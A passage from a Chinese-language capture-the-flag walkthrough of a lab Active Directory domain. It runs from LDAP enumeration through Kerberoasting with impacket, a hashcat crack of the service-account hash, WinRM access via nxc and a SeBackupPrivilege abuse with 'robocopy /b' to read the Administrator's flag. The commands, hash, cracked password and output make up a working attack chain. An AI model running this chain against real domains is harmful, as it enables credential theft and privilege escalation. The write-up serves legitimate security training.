LDAP        192.168.124.145 389    DC               objectGUID           369702e9-7c75-544e-90ed-5020726b7069
LDAP        192.168.124.145 389    DC               userAccountControl   66048
LDAP        192.168.124.145 389    DC               badPwdCount          0
LDAP        192.168.124.145 389    DC               codePage             0
LDAP        192.168.124.145 389    DC               countryCode          0
LDAP        192.168.124.145 389    DC               badPasswordTime      0
LDAP        192.168.124.145 389    DC               lastLogoff           0
LDAP        192.168.124.145 389    DC               lastLogon            0
LDAP        192.168.124.145 389    DC               pwdLastSet           134382599649070951
LDAP        192.168.124.145 389    DC               primaryGroupID       513
LDAP        192.168.124.145 389    DC               objectSid            S-1-5-21-1703502846-359032409-3108969460-1104
LDAP        192.168.124.145 389    DC               adminCount           1
LDAP        192.168.124.145 389    DC               accountExpires       9223372036854775807
LDAP        192.168.124.145 389    DC               logonCount           0
LDAP        192.168.124.145 389    DC               sAMAccountName       ll104567
LDAP        192.168.124.145 389    DC               sAMAccountType       805306368
LDAP        192.168.124.145 389    DC               servicePrincipalName HTTP/DC.babyad1.dsz
LDAP        192.168.124.145 389    DC               objectCategory       CN=Person,CN=Schema,CN=Configuration,DC=babyad1,DC=dsz
LDAP        192.168.124.145 389    DC               dSCorePropagationData 20261104100203.0Z
LDAP        192.168.124.145 389    DC                                    16010101000000.0Z
LDAP        192.168.124.145 389    DC               msDS-SupportedEncryptionTypes 1
```

尝试Kerberoasting且利用成功

```bash
──(lily2663㉿LAPTOP-L8P806AH)-[~/backup_out_7z/backup]
└─$ impacket-GetUserSPNs babyad1.dsz/test:Baby@2026 -dc-ip 192.168.124.145 -request -outputfile kerb.txt
cat kerb.txt
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies

ServicePrincipalName  Name      MemberOf                                                 PasswordLastSet             LastLogon  Delegation
--------------------  --------  -------------------------------------------------------  --------------------------  ---------  ----------
HTTP/DC.babyad1.dsz   ll104567  CN=Remote Management Users,CN=Builtin,DC=babyad1,DC=dsz  2026-11-04 17:59:24.907095  <never>


[-] CCache file is not found. Skipping...
$krb5tgs$23$*ll104567$BABYAD1.DSZ$babyad1.dsz/ll104567*$78fc31f2414984ec1499269c14c4f7d2$e3f1bee2f53073e1964a99969cbc50f1b8e2f28eb3ea6a4913458a54ac42113f31505b1dc2822b2c46dc00b6c27790bcc1e449c3e95708144d9285c35d96c3dea2234bef43604bee1a47b22280f887a6d89d823f43d9271fc56b012644d857a5e056d0946b946d7d19701b05b131d743f9c20d343838c217340c6e36e65faa86605a578840f6ca6cabd04671272ddf650689a02073cce8b149a875d70f572049e45ba25be4726eb691998593422966924785a6ba79a98ee8474230cb4472d9f06877e1c1bc91a1c92abcdce5b4ddf80578cdd1850fa5ee991969a0c60e2fb0ed7f1bf3d7fe6163e334fab10440e1cec3a7332c0acd88b21423bd8991f7536954e3de1c94f7d8bbd6a6d5319ca48d0618dc3abf510f6965f045762d5e733d5530885dbcbd14d835ba8321c7949546157dfd769ecb4b0938bad6886b91f22ad3c3fb3f57daba7a07b4e23776a003b7629446ddf8520789d65db3cd39bd73aa889b7429f6fe2b5551168c81880975e2d684fe5a98cdee68c7fef9bb5bf36869a26f50487a0b961c197b86f06593d8ef08a6f7f07ba1032492ec977051d5a5f0d7bb7a012a153ad57f8b2a792ace438a081d78bc7ae8d5660890732558208ee0a0888a30fb47f5234fd14f802c8cf3e8e192a898a6e7f180d03f44ffe9af0cb25bb91bdf61eab0ad6f50e5bb0181216e7bbd2948eefbff000744d38b21f3eb4857690ee4e9a3e356e46053cb0555e3f2e03b99ac0a8092bcfe7b2a1b71c895922cdf3289ae52a0c12f131cd9095720b2ce1a04bdd1133d328e7f094d91e8c490f545101d071d52eaee8dbad28e5de1ded18e155d43164519e4786c6d46819144379fbc58ae00560f8da6b216bc4ba935f9701bc8efbd3940771f9cae80c6719bccde70b8b5297d255858bf53a2c96e8b1a0a1867c4167e50ba094e366c499e6a7ddfa2866c235b4e9e7d16ed771a76f7aad923f0b3342318f499dd30c38dffe62a6633e87458ba453135570f290a8551854330806723840a764f8f0127324bed165fdb5d54670960c5c28f6579e02c5319af7f3f10c2969cabbd039c481ba5a0500da476c6b0f0c77006d27538c383b27a657db44a8632722abbc244f262a361bc555201295ebdee83914c3ded8438becf655e056b3008ece53008e2792a47d5287fe5c1129c6631633fcb1953aa9f8b7edbb38a4f860ef159379e0ec454a82f568d6e67a02661c09251fa51f20f09e4ce8c
```

清理哈希文件：

```bash
┌──(lily2663㉿LAPTOP-L8P806AH)-[~/backup_out_7z/backup]
└─$ grep -o '\$krb5tgs\$23\$[^ ]*' kerb.txt > kerb_clean.txt
wc -l kerb_clean.txt
cat kerb_clean.txt | head -c 200; echo
1 kerb_clean.txt
$krb5tgs$23$*ll104567$BABYAD1.DSZ$babyad1.dsz/ll104567*$78fc31f2414984ec1499269c14c4f7d2$e3f1bee2f53073e1964a99969cbc50f1b8e2f28eb3ea6a4913458a54ac42113f31505b1dc2822b2c46dc00b6c27790bcc1e449c3e957081
```

hashcat爆破

```
hashcat -m 13100 kerb_clean.txt /usr/share/wordlists/rockyou.txt --force
hashcat -m 13100 kerb_clean.txt --show
```

得手：

```bash

You have enabled --force to bypass dangerous warnings and errors!
This can hide serious problems and should only be done when debugging.
Do not report hashcat issues encountered when using --force.

OpenCL API (OpenCL 3.0 PoCL 7.1+debian  Linux, None+Asserts, RELOC, SPIR-V, LLVM 21.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
====================================================================================================================================================
* Device #01: cpu-haswell-Intel(R) Core(TM) i7-14650HX, 1467/2934 MB (1467 MB allocatable), 24MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256
Minimum salt length supported by kernel: 0
Maximum salt length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Temperature abort trigger set to 90c

Host memory allocated for this attack: 518 MB (1315 MB free)

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

$krb5tgs$23$*ll104567$BABYAD1.DSZ$babyad1.dsz/ll104567*$78fc31f2414984ec1499269c14c4f7d2$e3f1bee2f53073e1964a99969cbc50f1b8e2f28eb3ea6a4913458a54ac42113f31505b1dc2822b2c46dc00b6c27790bcc1e449c3e95708144d9285c35d96c3dea2234bef43604bee1a47b22280f887a6d89d823f43d9271fc56b012644d857a5e056d0946b946d7d19701b05b131d743f9c20d343838c217340c6e36e65faa86605a578840f6ca6cabd04671272ddf650689a02073cce8b149a875d70f572049e45ba25be4726eb691998593422966924785a6ba79a98ee8474230cb4472d9f06877e1c1bc91a1c92abcdce5b4ddf80578cdd1850fa5ee991969a0c60e2fb0ed7f1bf3d7fe6163e334fab10440e1cec3a7332c0acd88b21423bd8991f7536954e3de1c94f7d8bbd6a6d5319ca48d0618dc3abf510f6965f045762d5e733d5530885dbcbd14d835ba8321c7949546157dfd769ecb4b0938bad6886b91f22ad3c3fb3f57daba7a07b4e23776a003b7629446ddf8520789d65db3cd39bd73aa889b7429f6fe2b5551168c81880975e2d684fe5a98cdee68c7fef9bb5bf36869a26f50487a0b961c197b86f06593d8ef08a6f7f07ba1032492ec977051d5a5f0d7bb7a012a153ad57f8b2a792ace438a081d78bc7ae8d5660890732558208ee0a0888a30fb47f5234fd14f802c8cf3e8e192a898a6e7f180d03f44ffe9af0cb25bb91bdf61eab0ad6f50e5bb0181216e7bbd2948eefbff000744d38b21f3eb4857690ee4e9a3e356e46053cb0555e3f2e03b99ac0a8092bcfe7b2a1b71c895922cdf3289ae52a0c12f131cd9095720b2ce1a04bdd1133d328e7f094d91e8c490f545101d071d52eaee8dbad28e5de1ded18e155d43164519e4786c6d46819144379fbc58ae00560f8da6b216bc4ba935f9701bc8efbd3940771f9cae80c6719bccde70b8b5297d255858bf53a2c96e8b1a0a1867c4167e50ba094e366c499e6a7ddfa2866c235b4e9e7d16ed771a76f7aad923f0b3342318f499dd30c38dffe62a6633e87458ba453135570f290a8551854330806723840a764f8f0127324bed165fdb5d54670960c5c28f6579e02c5319af7f3f10c2969cabbd039c481ba5a0500da476c6b0f0c77006d27538c383b27a657db44a8632722abbc244f262a361bc555201295ebdee83914c3ded8438becf655e056b3008ece53008e2792a47d5287fe5c1129c6631633fcb1953aa9f8b7edbb38a4f860ef159379e0ec454a82f568d6e67a02661c09251fa51f20f09e4ce8c:!QAZ2wsx

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 13100 (Kerberos 5, etype 23, TGS-REP)
Hash.Target......: $krb5tgs$23$*ll104567$BABYAD1.DSZ$babyad1.dsz/ll104...e4ce8c
Time.Started.....: Sat Nov 21 15:10:39 2026, (0 secs)
Time.Estimated...: Sat Nov 21 15:10:39 2026, (0 secs)
Kernel.Feature...: Pure Kernel (password length 0-256 bytes)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#01........:  4132.0 kH/s (2.36ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 24576/14344385 (0.17%)
Rejected.........: 0/24576 (0.00%)
Restore.Point....: 0/14344385 (0.00%)
Restore.Sub.#01..: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#01...: 123456 -> 280789
Hardware.Mon.#01.: Util:  4%

Started: Sat Nov 21 15:10:28 2026
Stopped: Sat Nov 21 15:10:41 2026
$krb5tgs$23$*ll104567$BABYAD1.DSZ$babyad1.dsz/ll104567*$78fc31f2414984ec1499269c14c4f7d2$e3f1bee2f53073e1964a99969cbc50f1b8e2f28eb3ea6a4913458a54ac42113f31505b1dc2822b2c46dc00b6c27790bcc1e449c3e95708144d9285c35d96c3dea2234bef43604bee1a47b22280f887a6d89d823f43d9271fc56b012644d857a5e056d0946b946d7d19701b05b131d743f9c20d343838c217340c6e36e65faa86605a578840f6ca6cabd04671272ddf650689a02073cce8b149a875d70f572049e45ba25be4726eb691998593422966924785a6ba79a98ee8474230cb4472d9f06877e1c1bc91a1c92abcdce5b4ddf80578cdd1850fa5ee991969a0c60e2fb0ed7f1bf3d7fe6163e334fab10440e1cec3a7332c0acd88b21423bd8991f7536954e3de1c94f7d8bbd6a6d5319ca48d0618dc3abf510f6965f045762d5e733d5530885dbcbd14d835ba8321c7949546157dfd769ecb4b0938bad6886b91f22ad3c3fb3f57daba7a07b4e23776a003b7629446ddf8520789d65db3cd39bd73aa889b7429f6fe2b5551168c81880975e2d684fe5a98cdee68c7fef9bb5bf36869a26f50487a0b961c197b86f06593d8ef08a6f7f07ba1032492ec977051d5a5f0d7bb7a012a153ad57f8b2a792ace438a081d78bc7ae8d5660890732558208ee0a0888a30fb47f5234fd14f802c8cf3e8e192a898a6e7f180d03f44ffe9af0cb25bb91bdf61eab0ad6f50e5bb0181216e7bbd2948eefbff000744d38b21f3eb4857690ee4e9a3e356e46053cb0555e3f2e03b99ac0a8092bcfe7b2a1b71c895922cdf3289ae52a0c12f131cd9095720b2ce1a04bdd1133d328e7f094d91e8c490f545101d071d52eaee8dbad28e5de1ded18e155d43164519e4786c6d46819144379fbc58ae00560f8da6b216bc4ba935f9701bc8efbd3940771f9cae80c6719bccde70b8b5297d255858bf53a2c96e8b1a0a1867c4167e50ba094e366c499e6a7ddfa2866c235b4e9e7d16ed771a76f7aad923f0b3342318f499dd30c38dffe62a6633e87458ba453135570f290a8551854330806723840a764f8f0127324bed165fdb5d54670960c5c28f6579e02c5319af7f3f10c2969cabbd039c481ba5a0500da476c6b0f0c77006d27538c383b27a657db44a8632722abbc244f262a361bc555201295ebdee83914c3ded8438becf655e056b3008ece53008e2792a47d5287fe5c1129c6631633fcb1953aa9f8b7edbb38a4f860ef159379e0ec454a82f568d6e67a02661c09251fa51f20f09e4ce8c:!QAZ2wsx
```

!QAZ2wsx

验证凭据，ok

```bash
┌──(lily2663㉿LAPTOP-L8P806AH)-[~/backup_out_7z/backup]
└─$ nxc smb 192.168.124.145 -u ll104567 -p '!QAZ2wsx' -d babyad1.dsz
SMB         192.168.124.145 445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:babyad1.dsz) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         192.168.124.145 445    DC               [+] babyad1.dsz\ll104567:!QAZ2wsx
```

检查winRM

```bash
┌──(lily2663㉿LAPTOP-L8P806AH)-[~/backup_out_7z/backup]
└─$ nxc winrm 192.168.124.145 -u ll104567 -p '!QAZ2wsx' -d babyad1.dsz
WINRM       192.168.124.145 5985   DC               [*] Windows 10 / Server 2019 Build 17763 (name:DC) (domain:babyad1.dsz)
WINRM       192.168.124.145 5985   DC               [+] babyad1.dsz\ll104567:!QAZ2wsx (Pwn3d!)

```

Pwn3d! 说明 ll104567 不仅认证成功，还能通过 WinRM 在 DC 上执行命令

尝试直接读取flag失败：

```bash
┌──(lily2663㉿LAPTOP-L8P806AH)-[~/backup_out_7z/backup]
└─$ nxc winrm 192.168.124.145 -u ll104567 -p '!QAZ2wsx' -d babyad1.dsz -x 'type C:\Users\Administrator\Desktop\root.txt'
WINRM       192.168.124.145 5985   DC               [*] Windows 10 / Server 2019 Build 17763 (name:DC) (domain:babyad1.dsz)
WINRM       192.168.124.145 5985   DC               [+] babyad1.dsz\ll104567:!QAZ2wsx (Pwn3d!)
WINRM       192.168.124.145 5985   DC               [-] Execute command failed, current user: 'babyad1.dsz\ll104567' has no 'Invoke' rights to execute command (shell type: cmd)
WINRM       192.168.124.145 5985   DC               [+] Executed command (shell type: powershell)
WINRM       192.168.124.145 5985   DC               [-] Access to the path 'C:\Users\Administrator\Desktop\root.txt' is denied.

```

那么Pwn3d! 只代表 WinRM 能执行命令，不代表是管理员。root.txt 的 ACL 挡住了普通用户，但 ll104567 在 Backup Operators 组，有 SeBackupPrivilege，可以绕过 ACL 读文件。先确认权限，再用备份语义读。

```bash
┌──(lily2663㉿LAPTOP-L8P806AH)-[~/backup_out_7z/backup]
└─$ nxc winrm 192.168.124.145 -u ll104567 -p '!QAZ2wsx' -d babyad1.dsz -x 'whoami /priv'
WINRM       192.168.124.145 5985   DC               [*] Windows 10 / Server 2019 Build 17763 (name:DC) (domain:babyad1.dsz)
WINRM       192.168.124.145 5985   DC               [+] babyad1.dsz\ll104567:!QAZ2wsx (Pwn3d!)
WINRM       192.168.124.145 5985   DC               [-] Execute command failed, current user: 'babyad1.dsz\ll104567' has no 'Invoke' rights to execute command (shell type: cmd)
WINRM       192.168.124.145 5985   DC               [+] Executed command (shell type: powershell)
WINRM       192.168.124.145 5985   DC
WINRM       192.168.124.145 5985   DC               特权信息
WINRM       192.168.124.145 5985   DC               ----------------------
WINRM       192.168.124.145 5985   DC
WINRM       192.168.124.145 5985   DC               特权名                        描述             状态
WINRM       192.168.124.145 5985   DC               ============================= ================ ======
WINRM       192.168.124.145 5985   DC               SeMachineAccountPrivilege     将工作站添加到域 已启用
WINRM       192.168.124.145 5985   DC               SeBackupPrivilege             备份文件和目录   已启用
WINRM       192.168.124.145 5985   DC               SeRestorePrivilege            还原文件和目录   已启用
WINRM       192.168.124.145 5985   DC               SeShutdownPrivilege           关闭系统         已启用
WINRM       192.168.124.145 5985   DC               SeChangeNotifyPrivilege       绕过遍历检查     已启用
WINRM       192.168.124.145 5985   DC               SeIncreaseWorkingSetPrivilege 增加进程工作集   已启用
```

SeBackupPrivilege 和 SeRestorePrivilege 都是已启用，可以采用Backup Operators的标准提权点。直接用 robocopy /b 备份语义绕过 ACL 读文件。

### 建立临时目录

```bash
┌──(lily2663㉿LAPTOP-L8P806AH)-[~/backup_out_7z/backup]
└─$ nxc winrm 192.168.124.145 -u ll104567 -p '!QAZ2wsx' -d babyad1.dsz -x 'mkdir C:\temp'
WINRM       192.168.124.145 5985   DC               [*] Windows 10 / Server 2019 Build 17763 (name:DC) (domain:babyad1.dsz)
WINRM       192.168.124.145 5985   DC               [+] babyad1.dsz\ll104567:!QAZ2wsx (Pwn3d!)
WINRM       192.168.124.145 5985   DC               [-] Execute command failed, current user: 'babyad1.dsz\ll104567' has no 'Invoke' rights to execute command (shell type: cmd)
WINRM       192.168.124.145 5985   DC               [+] Executed command (shell type: powershell)
WINRM       192.168.124.145 5985   DC
WINRM       192.168.124.145 5985   DC
WINRM       192.168.124.145 5985   DC                   目录: C:\
WINRM       192.168.124.145 5985   DC
WINRM       192.168.124.145 5985   DC
WINRM       192.168.124.145 5985   DC               Mode                LastWriteTime         Length Name
WINRM       192.168.124.145 5985   DC               ----                -------------         ------ ----
WINRM       192.168.124.145 5985   DC               d-----       11/21/2026   3:15 PM                temp
WINRM       192.168.124.145 5985   DC
```

复制root.txt

```bash
┌──(lily2663㉿LAPTOP-L8P806AH)-[~/backup_out_7z/backup]
└─$ nxc winrm 192.168.124.145 -u ll104567 -p '!QAZ2wsx' -d babyad1.dsz -x 'robocopy /b C:\Users\Administrator\Desktop C:\temp root.txt'
WINRM       192.168.124.145 5985   DC               [*] Windows 10 / Server 2019 Build 17763 (name:DC) (domain:babyad1.dsz)
WINRM       192.168.124.145 5985   DC               [+] babyad1.dsz\ll104567:!QAZ2wsx (Pwn3d!)
WINRM       192.168.124.145 5985   DC               [-] Execute command failed, current user: 'babyad1.dsz\ll104567' has no 'Invoke' rights to execute command (shell type: cmd)
WINRM       192.168.124.145 5985   DC               [+] Executed command (shell type: powershell)
WINRM       192.168.124.145 5985   DC
WINRM       192.168.124.145 5985   DC               -------------------------------------------------------------------------------
WINRM       192.168.124.145 5985   DC                  ROBOCOPY     ::     Windows 的可靠文件复制
WINRM       192.168.124.145 5985   DC               -------------------------------------------------------------------------------
WINRM       192.168.124.145 5985   DC
WINRM       192.168.124.145 5985   DC                 开始时间: 2026年11月21日 15:16:16
WINRM       192.168.124.145 5985   DC                       源: C:\Users\Administrator\Desktop\
WINRM       192.168.124.145 5985   DC                     目标: C:\temp\
WINRM       192.168.124.145 5985   DC
WINRM       192.168.124.145 5985   DC                     文件: root.txt
WINRM       192.168.124.145 5985   DC
WINRM       192.168.124.145 5985   DC                     选项: /DCOPY:DA /COPY:DAT /B /R:1000000 /W:30
WINRM       192.168.124.145 5985   DC
WINRM       192.168.124.145 5985   DC               ------------------------------------------------------------------------------
WINRM       192.168.124.145 5985   DC
WINRM       192.168.124.145 5985   DC                                      1    C:\Users\Administrator\Desktop\
WINRM       192.168.124.145 5985   DC                       新文件                49    root.txt
WINRM       192.168.124.145 5985   DC                 0%
WINRM       192.168.124.145 5985   DC               100%
WINRM       192.168.124.145 5985   DC
WINRM       192.168.124.145 5985   DC               ------------------------------------------------------------------------------
WINRM       192.168.124.145 5985   DC
WINRM       192.168.124.145 5985   DC                                 总数        复制        跳过       不匹配        失败        其他
WINRM       192.168.124.145 5985   DC                      目录:         1         0         1         0         0         0
WINRM       192.168.124.145 5985   DC                      文件:         1         1         0         0         0         0
WINRM       192.168.124.145 5985   DC                      字节:        49        49         0         0         0         0
WINRM       192.168.124.145 5985   DC                      时间:   0:00:00   0:00:00                       0:00:00   0:00:00
WINRM       192.168.124.145 5985   DC                  结束时间: 2026年11月21日 15:16:16
```

随后读取root.txt

# ROOTFLAG

```bash
┌──(lily2663㉿LAPTOP-L8P806AH)-[~/backup_out_7z/backup]
└─$ nxc winrm 192.168.124.145 -u ll104567 -p '!QAZ2wsx' -d babyad1.dsz -x 'type C:\temp\root.txt'
WINRM       192.168.124.145 5985   DC               [*] Windows 10 / Server 2019 Build 17763 (name:DC) (domain:babyad1.dsz)
WINRM       192.168.124.145 5985   DC               [+] babyad1.dsz\ll104567:!QAZ2wsx (Pwn3d!)
WINRM       192.168.124.145 5985   DC               [-] Execute command failed, current user: 'babyad1.dsz\ll104567' has no 'Invoke' rights to execute command (shell type: cmd)
WINRM       192.168.124.145 5985   DC               [+] Executed command (shell type: powershell)
WINRM       192.168.124.145 5985   DC               flag{root-d3e7a1b5-8c2f-4d6e-a9b4-7f1c3e5d8a02}

```

